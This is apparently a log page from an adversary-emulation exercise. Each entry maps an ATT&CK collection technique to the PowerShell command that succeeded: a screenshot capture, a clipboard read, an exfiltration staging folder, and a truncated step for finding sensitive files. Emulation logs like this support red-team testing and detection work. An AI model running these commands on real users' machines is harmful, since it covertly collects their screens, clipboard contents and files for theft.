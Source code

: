   Command: 
```powershell
$loadResult = [Reflection.Assembly]::LoadWithPartialName("System.Drawing");function screenshot([Drawing.Rectangle]$bounds, $path) {   $bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height;   $graphics = [Drawing.Graphics]::FromImage($bmp);   $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);   $bmp.Save($path);   $graphics.Dispose();   $bmp.Dispose();}if ($loadResult) {  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);  $dest = "$HOME\Desktop\screenshot.png";  screenshot $bounds $dest;  if (Test-Path -Path $dest) {    $dest;    exit 0;  };};exit 1;
```


###   Description: copy the contents for the clipboard and print them


  Attack: {'tactic': 'collection', 'technique_name': 'Clipboard Data', 'technique_id': 'T1115'}

  Status: Success

  PID: 6472

  Start: 2024-09-13T18:23:08Z

  Command: 
```powershell
Get-Clipboard -raw
```


###   Description: create a directory for exfil staging


  Attack: {'tactic': 'collection', 'technique_name': 'Data Staged: Local Data Staging', 'technique_id': 'T1074.001'}

  Status: Success

  PID: 4396

  Start: 2024-09-13T18:23:44Z

  Command: 
```powershell
New-Item -Path "." -Name "staged" -ItemType "directory" -Force | foreach {$_.FullName} | Select-Object
```


###   Description: Locate files deemed sensitive


  Attack: {'tactic': 'collection', 'technique_name': 'Data from Local System', 'technique_id': 'T1005'}

  Status: Success

  PID: 3032

  Start: 2024-09-13T18:24:48Z
